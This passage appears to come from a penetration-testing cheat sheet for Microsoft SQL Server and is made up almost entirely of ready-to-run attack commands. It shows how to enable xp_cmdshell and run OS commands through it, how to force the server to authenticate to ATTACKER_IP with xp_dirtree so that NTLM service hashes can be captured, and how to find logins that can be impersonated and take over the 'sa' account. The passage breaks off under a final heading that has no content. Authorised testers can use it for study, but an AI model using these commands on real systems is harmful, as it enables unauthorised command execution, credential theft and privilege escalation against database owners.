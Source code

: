 ### 4.3.1 Enable xp_cmdshell

Turn on advanced options and is needed to configure xp_cmdshell:

```sql
EXEC sp_configure 'show advanced options', '1';
RECONFIGURE;
```

Enables xp_cmdshell:

```sql
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
```

### 4.3.2 Execute command

```powershell
xp_cmdshell 'whoami';
EXEC master..xp_cmdshell 'whoami';
EXEC master.dbo.xp_cmdshell 'whoami';
EXEC xp_cmdshell 'whoami';
```

## 4.4. NTLM Service Hash gathering

```sql
xp_dirtree '\\ATTACKER_IP\any\thing';
EXEC master.dbo.xp_dirtree '\\ATTACKER_IP\any\thing';
EXEC master..xp_dirtree '\\ATTACKER_IP\any\thing';
```

## 4.5. User impersonation

List users that can be impersonated

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

Impersonating user

> Check current user

```sql
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

> Impersonate user

```sql
EXECUTE AS LOGIN = 'sa';
```

> Check if successfully impersonate user
